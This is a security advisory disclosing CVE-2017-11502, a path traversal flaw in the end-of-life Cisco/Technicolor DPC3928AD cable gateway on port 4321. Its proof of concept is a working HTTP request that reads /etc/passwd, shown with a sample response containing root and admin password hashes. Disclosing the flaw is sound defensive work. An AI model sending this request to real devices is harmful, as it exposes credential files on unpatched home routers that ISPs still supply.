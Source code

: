 ## Vulnerability Summary
The following advisory describes an arbitrary file disclosure vulnerability found in Cisco DPC3928AD DOCSIS 3.0 2-PORT Voice Gateway.

The Cisco DPC3928AD DOCSIS is a home wireless router that is currently "Out of support" but is provided by ISPs world wide.

## Credit
An independent security researcher has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

## Vendor response
We reported the vulnerability to Cisco and they informed us that the Cisco DPC3928AD sold to Technicolor: “The Cisco DPC3928AD was actually sold to Technicolor a while back. In this case, we will ask you to please contact Technicolor at security@technicolor.com to open a case with them”

After connecting Technicolor, they informed us that the product has reached end of life and they will not patch the vulnerability: “After an extensive search for the product to perform validation, we were unable to source the gateway to validate your proof of concept. Due to the end-of-sale and end-of-life of the product Technicolor will not be patching the bug.”

CVE: CVE-2017-11502

## Vulnerability details
Cisco DPC3928AD DOCSIS 3.0 2-PORT Voice Gateway vulnerability is present on its TCP/4321 port .

## Proof of Concept
An attacker can get the /etc/passwd file from the remote device, by sending the following request:


```
GET /../../../../../../../../../../../../../../../../etc/passwd
HTTP/1.1
Host: 192.168.0.10:4321
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

The Router response the next output with the passwd content:

```
HTTP/1.1 200 OK
Content-Type: text/html
SERVER: Linux/#2 Wed Nov 12 10:23:46 CST 2014 UPnP/1.0 Broadcom
UPNP/0.9
Content-Length: 247
Accept-Ranges: bytes
Date: Thu, 10 Nov 2016 16:01:04 GMT

root:HAdbdMWcXHOuKQ:0:0:root:/:/bin/sh
admin:KASJakljhHqiuJ:0:0:aDMINISTRATOR:/:/bin/false
```